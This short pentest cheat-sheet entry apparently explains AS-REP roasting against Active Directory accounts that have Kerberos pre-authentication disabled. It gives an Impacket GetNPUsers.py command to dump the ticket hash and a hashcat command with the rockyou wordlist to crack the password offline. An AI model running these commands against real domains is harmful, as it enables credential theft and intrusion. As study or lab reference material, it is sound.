 Account/Service needs Kerberos pre-authentication to be disabled. This means that we can request the encrypted TGT for this user. As the TGT contains material that is encrypted with the user's NTLM hash, we can subject this to an offline brute force attack, and attempt to get the password.

The GetNPUsers.py script from Impacket can be used to request a TGT ticket and dump the
hash.

```
GetNPUsers.py -no-pass -dc-ip <IP> <domain>/<user>
```

Crack the hash with hashcat
```
hashcat -m 18200 <file.hash> /usr/share/wordlists/rockyou.txt --force
```

